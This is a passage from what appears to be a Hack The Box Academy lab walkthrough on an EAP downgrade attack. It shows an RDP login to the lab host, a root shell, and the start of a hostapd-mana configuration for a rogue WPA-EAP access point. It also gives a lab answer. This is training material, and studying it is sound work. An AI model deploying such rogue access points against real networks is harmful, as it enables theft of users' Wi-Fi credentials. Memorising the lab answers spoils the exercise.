 Answer: `HTB\jason`

# EAP Downgrade Attack (Attacking)

## Question 1

### "Perform the EAP downgrade attack as demonstrated in this section. What is the password for user HTB\\Sentinal?"

After spawning the target, students will proceed to establish an RDP connection using the credentials `wifi:wifi`:

Code: shell

```shell
xfreerdp /v:STMIP /u:wifi /p:wifi /dynamic-resolution
```

```
┌─[eu-academy-6]─[10.10.14.121]─[htb-ac-8414@htb-8rkgr5npc7]─[~]
└──╼ [★]$ xfreerdp /v:10.129.19.233 /u:wifi /p:wifi /dynamic-resolution 

[05:08:27:854] [8485:8486] [ERROR][com.winpr.timezone] - Unable to find a match for unix timezone: US/Central
[05:08:29:957] [8485:8486] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[05:08:29:957] [8485:8486] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[05:08:29:970] [8485:8486] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[05:08:29:970] [8485:8486] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel rdpgfx
[05:08:29:970] [8485:8486] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel disp
```

Students will open a terminal and switch to the root's user context:

Code: shell

```shell
sudo -s
```

```
wifi@WiFiIntro:~$ sudo -s
```

Students will reuse the `hostapd.conf` file from the section and will save it as `hostapd.conf`:

Code: conf

```conf
# Interface configuration
interface=wlan1
ssid=HTB-Corp
channel=1
auth_algs=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
wpa=3
hw_mode=g
ieee8021x=1

# EAP Configuration
eap_server=1
eap_user_file=hostapd.eap_user

# Mana Configuration
enable_mana=1
```